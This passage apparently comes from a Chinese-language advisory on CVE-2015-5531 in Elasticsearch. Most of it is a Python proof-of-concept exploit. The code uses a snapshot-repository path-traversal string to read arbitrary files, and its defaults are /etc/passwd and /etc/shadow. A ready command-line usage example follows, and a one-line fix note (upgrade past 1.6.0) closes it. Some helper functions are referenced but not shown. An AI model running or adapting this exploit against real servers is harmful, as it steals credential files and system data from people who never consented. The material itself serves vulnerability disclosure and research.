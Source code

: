 ```python
def exploit(**args):
    """
    :param args:
    :return:
    """
    target = args['target']
    port = args['port']
    fpath = args['fpath'].split(',')
    fpath = [urllib.quote(fp, safe='') for fp in fpath]
    base_url = "http://{0}:{1}/_snapshot/".format(target, port)
    create_repos(base_url)
    for fp in fpath:
        vuln_url = '{0}{1}/{2}{3}'.format(base_url, REPO_NAME_LST[0], FCK, fp)
        print colorize_red(urllib.unquote(fp)) + ":\n"
        grab_file(vuln_url)


if __name__ == "__main__":
    # for global
    FCK = 'backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..'
    REPO_NAME_LST = ['test11', 'test12']

    DATA_REPO_LST = [{"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test30"}},
                     {"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test30/snapshot-backdata"}}]
    parser = argparse.ArgumentParser(usage="python cve-2015-5531.py options",
                                     description="cve-2015-5531 Vuln PoC", add_help=True)
    parser.add_argument('-t', '-target', metavar='TARGET', type=str, dest="target", required=True, help='eg: 127.0.0.1 or www.baidu.com')

    parser.add_argument('-p', '-port', metavar='PORT', dest='port',
    type=int, default=9200, help='elasticsearch port default 9200')

    parser.add_argument('-fpath', metavar='FPATH', dest='fpath', type=str,
    default='/etc/passwd,/etc/shadow', help='file to grab multi files separated by comma ')
    args = parser.parse_args()
    try:
        exploit(**args.__dict__)
    except:
        traceback.print_exc()

```

**Example：**`python poc.py -t your_ip -p your_port -fpath /etc/passwd`

## 5.&emsp;修复方案

升级ElasticSearch 版本到1.6.0以上版本。
